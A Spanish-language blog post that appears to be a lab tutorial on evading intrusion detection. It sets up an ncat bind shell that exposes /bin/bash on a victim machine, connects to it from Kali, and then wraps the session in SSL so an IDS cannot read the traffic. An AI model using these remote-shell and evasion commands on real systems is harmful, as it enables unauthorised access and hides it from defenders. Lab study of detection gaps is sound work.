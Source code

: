 ```yaml
---
title: Atacar redes empresariales y saltar a los sistemas de detección de intrusos(IDS)
author: nik0
date: 2020-11-26 16:38:00 +0800
categories: [Ciberseguridad]
tags: [IDS,Pentesting]
---
```


## Introducción

En las redes empresariales es muy común ver IDS, IPS y NGFW entre otros tipos de sistemas que reconocen patrones inusuales de conductas no autorizadas, analizan paquetes de red, examinan el tráfico y los puertos, etc.

Por eso cuando queremos hacer una intrusión a un sistema, es muy importante que estos sistemas no detecten lo que hacemos, ya que de lo contrario nos bloquearían la conexión al servidor víctima y no podriamos concluir con lo que queremos hacer.

## Montando el laboratorio

Primero, voy a tener 2 máquinas activas, la primera va a ser Kali (Atacante) y la segunda va a ser una máquina de Ubuntu (Victima), en Ubuntu voy a tener instalado Wireshark para poder capturar los paquetes TCP y poder diferenciar entre una conexión encriptada y otra que no lo está.

## Utilizando Ncat

Vamos a abrir una terminal y ejecutar el comando ```ncat -nlvp 1337 -e /bin/bash``` "n" significa no hay host vinculante, "l" es que para poner a la escucha, "v" para que sea más "detallado" o verboso y "p" significa el puerto a la escucha ```-e /bin/bash``` significa que vamos a tener un entorno en bash, presionamos enter y tiene que estar tal cual en la foto:

![NCAT](/assets/img/sample/A.png)

luego desde Kali(atacante) nos vamos a conectar a Ubuntu(Víctima), para ello utlizamos el comando ```ncat -nv 172.16.211.131 1337``` ponemos la ip de Ubuntu y el puerto que está a la escucha, presionamos enter y deberia aparecernos así:

![b](/assets/img/sample/B.png)

## Configurando Wireshark

Antes de ponernos a escribir comandos etc, vamos a poner a Wireshark a seguir los paquetes de red TCP, en mi caso sería la interfaz "ens33" si se deja el cursor un rato ahi, nos muestra la ip de la máquina en este caso la de Kali, lo presionamos 2 veces y ya se puso a la escucha


Ahora si podemos escribir comandos en la consola, podemos hacer un pwd o lo que se nos ocurra:

![c](/assets/img/sample/C.png)

luego si nos vamos a Wireshark, vemos que está capturando tráfico, vamos a ver que nos puede mostrar Wireshark, lo que hacemos es clickear un paquete de red, click derecho, nos vamos a follow y después TCP stream, nos debería aparecer algo así:

![E](/assets/img/sample/D.png)

y podemos ver que la conexión no está encriptada por lo tanto un IDS te lo puede detectar fácilmente.

## Encriptando conexión con Ncat

Ahora lo que vamos a hacer es encriptar nuestra conexión para así poder hacer un bypass al IDS, matamos todos los procesos que teníamos antes, el procedimiento es el mismo solo que ahora los comandos cambian.

Vamos a escribir en la consola de Ubuntu ```ncat --exec /bin/bash -vnl 1233 --ssl``` y en la de Kali ```ncat -nv 172.16.211.131 1233 --ssl``` ponemos a Wireshark a capturar tráfico de red y esto es lo que nos sale:
![c](/assets/img/sample/E.png)

Nos vamos a Wireshark, mismo procedimiento y nos tendría que salir así:

![c](/assets/img/sample/F.png)

Esto para un IDS, no le hace sentido por lo tanto no lo va a considerar cómo actividad sospechosa o intrusión ;)




